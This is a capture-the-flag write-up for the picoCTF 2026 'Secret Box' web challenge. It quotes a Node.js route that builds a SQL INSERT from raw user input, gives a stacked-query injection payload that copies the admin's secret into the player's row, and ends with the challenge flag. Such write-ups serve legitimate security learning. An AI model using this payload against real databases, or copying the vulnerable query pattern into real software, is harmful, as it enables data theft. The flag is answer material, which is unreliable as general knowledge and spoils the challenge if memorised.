

# Secret Box — Pico CTF 2026

> **Room / Challenge:** Secret Box (Web)

---

## Metadata

- **CTF:** Pico CTF 2026
- **Challenge:** Secret Box (web)
- **Target / URL:** `https://play.picoctf.org/events/79/challenges/747?category=1&page=1`

---

## Goal

Use SQL Injection to get the flag.

## My Solution

Examining the source code, most of the routes are safe from SQL Injection but there is a route `/secrets/create`, which doesn't santize the input:

```javascript
app.post("/secrets/create", authMiddleware, async (req, res) => {
  const userId = req.userId;
  if (!userId) {
    // if user didn't login, redirect to index page
    res.clearCookie("auth_token");
    return res.redirect("/");
  }

  const content = req.body.content;
  const query = await db.raw(
    `INSERT INTO secrets(owner_id, content) VALUES ('${userId}', '${content}')`,
  );

  return res.redirect("/");
});
```

It inserts the input right into the query:

```sql
INSERT INTO secrets(owner_id, content) VALUES ('${userId}', '${content}')
```

Therefore, we can create a payload to create a secret -> update our secret content exactly equals to the secret of the admin.

Payload I use:

```sql
abc'); UPDATE secrets SET content = (SELECT content FROM secrets WHERE owner_id = 'e2a66f7d-2ce6-4861-b4aa-be8e069601cb') --
```

The full SQL command in the create secret will become:

```sql
INSERT INTO secrets(owner_id, content) VALUES ('${userId}', 'abc'); UPDATE secrets SET content = (SELECT content FROM secrets WHERE owner_id = 'e2a66f7d-2ce6-4861-b4aa-be8e069601cb') --')
```


Flag: `picoCTF{sq1_1nject10n_0f72a7ec}`
